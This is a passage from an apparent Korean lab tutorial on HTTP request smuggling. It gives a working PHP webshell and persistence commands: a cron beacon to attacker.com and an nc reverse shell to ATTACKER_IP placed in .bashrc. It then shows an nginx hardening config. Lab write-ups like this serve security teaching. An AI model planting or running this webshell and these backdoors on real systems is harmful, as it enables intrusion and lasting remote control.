 ### 시나리오 2: 고급 PHP 웹쉘 업로드

스크립트 수정:
```python
# smuggle_webshell.py의 php_shell 변수를 다음으로 교체:

php_shell = b'''<?php
@error_reporting(0);
@set_time_limit(0);
@ini_set('max_execution_time', 0);

if(isset($_POST['cmd'])) {
    echo "<pre>";
    echo shell_exec($_POST['cmd']);
    echo "</pre>";
} elseif(isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>'''
```

### 시나리오 3: 지속성 확보

```bash
# 웹쉘을 통해 cron job 추가
curl "http://localhost:9000/uploads/backdoor.php?cmd=echo+'*/5+*+*+*+*+curl+http://attacker.com/beacon'+|+crontab+-"

# .bashrc에 백도어 추가
curl "http://localhost:9000/uploads/backdoor.php?cmd=echo+'nc+-e+/bin/bash+ATTACKER_IP+4444'+>>+/home/www-data/.bashrc"
```

---

## 🛡️ 방어 방법

### Nginx 설정 강화

```nginx
http {
    server {
        # Transfer-Encoding 헤더 제거
        proxy_set_header Transfer-Encoding "";

        # Content-Length와 Transfer-Encoding 동시 존재 시 거부
        if ($http_transfer_encoding != "") {
            return 400;
        }

        # HTTP/2 사용 (Smuggling 불가)
        listen 443 ssl http2;
    }
}
```
